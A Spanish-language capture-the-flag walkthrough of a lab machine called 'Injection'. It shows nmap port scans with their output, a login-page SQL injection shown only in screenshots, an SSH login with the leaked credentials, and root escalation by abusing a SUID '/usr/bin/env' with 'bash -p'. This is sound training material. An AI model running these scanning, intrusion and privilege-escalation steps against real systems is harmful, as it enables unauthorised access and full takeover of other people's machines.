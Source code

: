 # Maquina injention

- Nivel: Muy fácil

## Escaneo de puertos

<p>Tras encender la máquina lo primero que haremos será un ping para comprobar que todo esta correcto</p>

'''
ping -c1 172.17.0.2
'''

'''
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms
'''

<p>Como podemos observar la máquina esta encendida, por el TTL se puede intuir que es una máquina Linux</p>

<p>Con esto comprobado procedemos a realizar el primer escaneo con nmap</p>

'''
sudo nmap -p- --open -sS -vvv -Pn 172.17.0.2
'''

'''
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:03 CET
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:03
Completed Parallel DNS resolution of 1 host. at 00:03, 6.53s elapsed
DNS resolution of 1 IPs took 6.53s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 1.42s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-06 00:03:29 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
'''

<p>El escaneo nos reporta que los puertos 22 y 80 estan abiertos lo cual puede ser un indicativo de que hay una página web corriendo en la máquina</p>
<p>Realizamos un segundo escaneo de esos puertos para obtener información mas detallada</p>

'''
sudo nmap -p 22,80 -sV -vvv -Pn 172.17.0.2
'''

'''
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:06 CET
NSE: Loaded 46 scripts for scanning.
Initiating ARP Ping Scan at 00:06
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:06, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:06
Completed Parallel DNS resolution of 1 host. at 00:06, 6.52s elapsed
DNS resolution of 1 IPs took 6.52s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:06
Scanning 172.17.0.2 [2 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:06, 0.02s elapsed (2 total ports)
Initiating Service scan at 00:06
Scanning 2 services on 172.17.0.2
Completed Service scan at 00:06, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000042s latency).
Scanned at 2025-02-06 00:06:29 CET for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)
'''

<p>Este escaneo nos reporta que estamos ante una máquina Ubuntu la cual corre un Apache 2.4.52</p>




##Pagina Web

<p>Introducimos la IP de la máquina en el navegador y nos lleva a la siguiente página</p>

![captura_injection_1](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-17-24.png)

<p>Podemos observar que es una página de inicio de sesión</p>
<p>Probamos una inyección SQL</p>

![captura_injection_2](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-24-24.png)

<p>La página es vulnerable a SQL Injection, nos muestra el siguiente resultado </p>

![captura_injection_3](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-26-15.png)

<p>Nos da un nombre de usuario y una contraseña</p>

##Conexión por ssh
<p>Aprovechando este nombre y contraseña tratamos de conectarnos por ssh</p>

'''
ssh dylan@172.17.0.2
'''

'''
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Feb  5 23:25:00 2025 from 172.17.0.1
dylan@7af8994eca56:~$ 
'''
<p>Ha funcionado, tenemos una conexión ssh con la máquina</p>

##Escalada de privilegios

Comprobamos que somos el usuario dylan

'''
whoami
'''

'''
dylan
'''

<p>Buscamos los programas sobre los que tenemos privilegios</p>

'''
sudo -l
'''

'''
-bash: sudo: command not found
'''

<p>Probamos otra forma de busqueda</p>

<p>Buscamos todos los archivos con permiso SUID y cuyo usuario sea root de forma que al ejecutarse lo hagan como este</p>
'''
find / -perm -4000 -user root 2>/dev/null
'''

'''
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/env
/usr/bin/chfn

'''

<p>De estos archivos podemos destacar /usr/bin/env el cual se utiliza para ejecutar un programa con variables de entorno personalizadas</p>
<p>Probamos a ejecutar /bin/bash con /bin/env de forma que al cumplir con las caracteristicas mencionadas anteriormente debería devolver una bash con permisos de root</p>

'''
/usr/bin/env /bin/bash -p
'''

'''
bash-5.1# whoami
root

'''

